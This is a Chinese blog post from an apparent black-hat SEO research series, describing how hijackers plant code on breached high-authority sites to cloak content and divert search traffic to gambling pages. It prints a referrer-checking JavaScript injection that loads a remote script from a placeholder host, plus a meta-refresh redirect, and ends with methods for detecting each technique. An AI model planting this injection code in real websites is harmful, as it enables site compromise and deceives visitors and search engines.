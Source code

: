 ```yaml
---
title: 【黑帽SEO系列】网页劫持
date: 2016-10-12 10:25:13
comments: true
tags: 
- 黑帽SEO
- 网页劫持
categories: 黑产研究
password:
copyright: true
---
```

　　网页劫持是目前黑帽SEO或者说黑产最喜欢的一种网页引流方式，此手法往往通过入侵政府、教育机构网站（权重高），修改网站源代码、放寄生虫程序、设置二级目录反向代理等实现。网页劫持可以分为服务端劫持、客户端劫持、百度快照劫持、百度搜索劫持等等；表现形式可以是劫持跳转，也可以是劫持呈现的网页内容，目前被广泛应用于私服、博彩等暴利行业。

### 服务端劫持
服务端劫持也称为全局劫持，手法为修改网站动态语言文本，判断访问来源控制返回内容，从来达到网站劫持的目的。
#### asp/aspx/php劫持
　　Global.asa、Global.asax、conn.asp、conn.php等文件比较特殊，作用是在每次执行一个动态脚本的时候，都会先加载该脚本， 然后再执行目标脚本。所以只要在 Global.asa 中写判断用户系统信息的代码（访问来源等），如果是蜘蛛访问则返回关键词网页（想要推广的网站），如果是用户访问，则返回正常页面。

### 客户端劫持
客户端劫持的手法也很多，但主要就是2种：js劫持、Header劫持。
#### js劫持
js劫持目的：通过向目标网页植入恶意js代码，控制网站跳转、隐藏页面内容、窗口劫持等。
js植入手法：可以通过入侵服务器，直接写入源代码中；也可以写在数据库中，因为有些页面会呈现数据库内容。
#### js劫持案例
效果：通过搜索引擎搜索点击页面（执行一段js）跳转到博彩页面；直接输入网址访问网页，跳转到404页面。
代码：
```bash
today=new Date();
today=today.getYear()+"-"+(today.getMonth()+1)+"-"+today.getDate();
var regexp=/\.(sogou|so|haosou|baidu|google|youdao|yahoo|bing|gougou|118114|vnet|360|ioage|sm|sp)(\.[a-z0-9\-]+){1,2}\//ig;
var where =document.referer;
if(regexp.test(where)){
document.write ('<script language="javascript" type="text/javascript" src="http://www.xxx.com/test.js"></script>');
}
else
{
window.location.href="../../404.htm";
}
```
分析：通过referer判断来路，如果referer来路为空就是跳转到404页面，如果是搜索引擎来的referer里面也会有显示，然后在写代码控制跳转。如果只是控制实现显示不同的内容，可以修改php、asp代码；如果需要劫持搜索引擎搜索框，可以写JS代码来做浏览器本地跳转。当然js功能可以无限扩展，比如可以控制一个ip一天内第一次访问正常，其余访问跳转等等。
#### header劫持
在源代码中写入以下代码：
```bash
<meta http-equiv=“refresh“ content=“10; url=http://thief.one“>
```
利用的就是Meta Refresh Tag（自动转向），将流量引走。

### 手法对比
#### 客户端劫持与服务端区别
客户端劫持：每次访问网页从服务端获取到的网页代码都是相同的，只是控制了网页代码在浏览器中呈现的效果（比如是否进行跳转等）。
服务端劫持：改变了每次访问网页从服务端获取到的网页代码。
#### 客户端劫持与服务端判断方法
客户端劫持的判断方法：只需观察浏览器呈现的网页前端代码，查看是否引用了不当的js，或者其它敏感内容。
服务端劫持的判断方法：可以通过观察网站后端代码，或者通过改变ip，包头等方式，观察放回源码是否不同。

结语：*网页劫持的方法还有很多，我了解的大概只是皮毛，黑帽SEO技术的水很深，前路漫漫。*

### 传送门

>[【黑帽SEO系列】基础知识](http://thief.one/2016/10/09/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/)
[【黑帽SEO系列】暗链](http://thief.one/2016/10/12/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E6%9A%97%E9%93%BE/)
[【黑帽SEO系列】网页劫持](http://thief.one/2016/10/12/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E7%BD%91%E9%A1%B5%E5%8A%AB%E6%8C%81/)
[【黑帽SEO系列】页面跳转](http://thief.one/2016/10/10/%E9%BB%91%E5%B8%BDSEO%E4%B9%8B%E9%A1%B5%E9%9D%A2%E8%B7%B3%E8%BD%AC/)


